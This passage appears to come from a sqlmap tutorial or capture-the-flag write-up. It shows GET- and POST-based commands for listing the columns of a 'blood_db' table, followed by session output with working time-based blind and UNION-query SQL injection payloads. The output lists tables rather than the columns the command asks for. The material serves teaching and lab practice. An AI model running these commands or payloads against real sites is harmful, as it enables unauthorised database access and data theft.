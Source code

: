 Once we have available tables, now let’s gather the columns from the table **blood_db**.

#### Using GET based Method

```
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns
```

```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
```

#### Using POST based Method

```
sqlmap -r req.txt -D blood -T blood_db --columns
```

```
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
```

```
           
4bo@4yman$ sqlmap -r req.txt -D blood -T blood_db --columns
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```
